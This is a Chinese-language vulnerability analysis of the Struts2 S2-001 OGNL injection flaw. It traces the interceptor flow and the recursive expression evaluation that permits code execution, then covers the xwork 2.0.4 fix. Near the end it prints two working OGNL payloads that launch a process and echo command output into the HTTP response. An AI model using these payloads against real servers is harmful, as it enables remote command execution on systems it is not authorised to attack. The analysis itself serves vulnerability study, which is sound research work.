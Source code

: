 # Struts2-001

## 漏洞影响范围

WebWork 2.1 (with altSyntax enabled), WebWork 2.2.0 - WebWork 2.2.5, Struts 2.0.0 - Struts 2.0.8

而Struts2 对 OGNL 表达式的解析使用了开源组件 `opensymphony.xwork 2.0.3`所以会有漏洞

## 流程分析

还是上次的那张图片开始![](img/0.png)

从上图，我们可以看出当一个 **HTTP** 请求被 **Struts2** 处理时，会经过一系列的 **拦截器(Interceptor)** ，这些拦截器可以是 **Struts2** 自带的，也可以是用户自定义的。例如下图 **struts.xml** 中的 **package** 继承自 **struts-default** ，而 **struts-default** 就使用了 **Struts2** 自带的拦截器。

![](img/1.png)

我们可以在`struts-default.xml`中找到这些默认使用的拦截器栈**defaultStack** ![](img/2.png)

在拦截器栈 **defaultStack** 中，我们需要关注 **params** 这个拦截器。其中， **params拦截器** 会将客户端请求数据设置到 **值栈(valueStack)** 中，后续 **JSP** 页面中所有的动态数据都将从值栈中取出。

![](img/3.png)![](img/4.png)

经过一系列的拦截器处理后，数据会成功进入实际业务 **Action** 。程序会根据 **Action** 处理的结果，选择对应的 **JSP** 视图进行展示，并对视图中的 **Struts2** 标签进行处理。如下图，在本例中 **Action** 处理用户登录失败时会返回 **error** 。![](img/5.png)

根据返回结果以及先前在 **struts.xml** 中定义的视图，程序将开始处理 **index.jsp** 。![](img/6.png)

当在 **JSP** 文件中遇到 **Struts2** 标签 **<s:textfield** 时，程序会先调用 **doStartTag** ，并将标签中的属性设置到 **TextFieldTag** 对象相应属性中。最后，在遇到 **/>** 结束标签的时候调用 **doEndTag** 方法。在 **doEndTag** 方法中调用了 **this.component.end** 方法，而该方法调用了 **evaluateParams** 方法来填充 **JSP** 中的动态数据。

![](img/7.png)

跟进 **evaluateParams** 方法，会发现如果开启了 **Ognl** 表达式支持( **this.altSyntax()** )，程序会在属性字段两边添加 **Ognl** 表达式字符( **%{、}** )，然后使用 **findValue** 方法从值栈中获得该表达式所对应的值。

![](img/8.png)

我们来看下 **findValue** 方法中，具体是如何解析 **Ognl** 表达式。如下图，可以看到 **findValue** 方法先调用了 **translateVariables** 方法，该方法又调用了同名重载方法。问题关键，就在这个同名重载方法中。

在最开始，我们传入 **translateVariables** 方法的表达式 **expression** 为 **%{username}** ，经过 **Ognl** 表达式解析，程序会获得其值 **%{1+1}** 。这个值在先前经过 **params** 拦截器的时候设置了，前面我们也说过。由于此处使用的是 **while** 循环来解析 **Ognl** ，所以获得的 **%{1+1}** 又会被再次执行，最终也就造成了任意代码执行。

![](img/9.png)

弹出一个计算器也很简单

```java
%{(new java.lang.ProcessBuilder(new java.lang.String[]{"calc"})).start()}
```

或者

```java
%{#a=(new java.lang.ProcessBuilder(new java.lang.String[]{"cmd","-c","clac"})).redirectErrorStream(true).start(),#b=#a.getInputStream(),#c=new java.io.InputStreamReader(#b),#d=new java.io.BufferedReader(#c),#e=new char[50000],#d.read(#e),#f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),#f.getWriter().println(new java.lang.String(#e)),#f.getWriter().flush(),#f.getWriter().close()}
```



## 漏洞修复

在 `xwork 2.0.4` 中添加了一个maxLoopCount属性，限制了递归解析的最大数目。

![](img/10.png)

配合这个index.Of参数，看看这个偏移量pos是怎么来的，很通俗易懂

![](img/11.png)